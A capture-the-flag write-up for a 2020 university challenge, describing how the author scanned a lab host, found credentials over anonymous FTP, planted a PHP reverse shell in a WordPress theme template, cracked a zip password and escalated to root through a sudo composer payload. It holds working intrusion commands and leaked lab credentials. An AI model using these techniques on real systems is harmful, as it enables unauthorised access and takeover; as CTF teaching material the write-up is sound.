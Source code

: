 # GNTM 2 - UNIWA 2020 CTF

-----

## Enumeration:

Running a quick ```sudo nmap -A -sS -oN nmap.log 10.69.5.11``` on the host reveals 2 open ports on the server: 21 (FTP) and 80 (HTTP)

## Gaining Access:
Logging in as anonymous user on port 21 and navigating into the pub directory we can see 2 files:

#
```flag.txt``` contains the first flag 

<details>
  <summary>Flag 1</summary>

  ```
  UNIWA{@nNa_M@r1A_bR@t1S_G1rL}
  ```
</details>

#
```users.xml``` Gives us a clue for a user and a password:

<details>
  <summary>User</summary>

  ```
  keisi:#DH6pSPKUod99dF#2J
  ```
</details>


Since no SSH service is running the next thing i tried was navigating to 
```/wp-admin/``` in order to log in into the WordPress dashboard.

#

## A shell's a shell!
After logging in to the dashboard i used a common [PHP backdoor](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to get a reverse shell back to my machine. 
I started a netcat listener using ```nc -lnvp 6666``` and pasted the php code (make sure to change the address to your VPN IP and the port to the port you set netcat to listen on) into the 404 Template (under Appearance->Theme
Editor)

Navigating to ```/wp-content/themes/twentytwentyone/404.php``` runs the php code and we can see a connection in our netcat window:

```
Connection from 10.69.5.11:45862
Linux 78347b536299 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:36:15 up 165 days,  9:37,  0 users,  load average: 0.63, 0.62, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
#
Boom, we got a shell!

## Looking around

First things first, upgrade to a proper shell using
```python3 -c 'import pty;pty.spawn("/bin/bash")'```

We can see that we are user ```www-data``` not much we can do. Tried running ```sudo -l``` but we don't have the password.

Navigating to the ```/home``` directory we find Katia's folder. Inside there is a flag.txt which contains the second flag, and a backup archive

<details>
  <summary>Flag 2</summary>

  ```
  UNIWA{K@t1A_tARab@Nko}
  ```
</details>

###

Since python is avaiable i run a quick http server using ```python3 -m http.server```  to download the zip file.

Turns out it's encrypted. I used ```zip2john``` to grab the password hash and then used ```john --wordlist=rockyou.txt zip.hash``` to crack


<details>
  <summary>Zip Password</summary>

  ```
  spongebob
  ```
</details>

#
Unzipping, we get a database dump and another flag.txt 

<details>
  <summary>Flag 3</summary>

  ```
  UNIWA{Il1@NA_bYe_By3}
  ```
</details>

#
## Getting \#

I spent ages trying to figure out how on earth was i supposed to log in as ```katia```. Then someone from my team suggested that i use the zip's password. To be honest i never expected it to work (because who would ever set their user password as a zip password, turns out people do that) and since i was looking for something in the SQL dump, but it actually DID!

Using ```su - katia``` and entering the zip's password i was able to log in as katia. Now i can run ```sudo -l``` to reveal that this user can run ```/usr/bin/composer``` as root without a password.

A quick search on [GTFObins](https://gtfobins.github.io/) shows that we can get an elevated shell if ```composer``` was ran as root.

```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json 
$ sudo composer --working-dir=$TF run-script x
```

A quick ```cat /root/flag.txt``` reveals the final flag

<details>
  <summary>Flag 4</summary>

  ```
  UNIWA{k3iSi_L0ve!!}
  ```
</details>


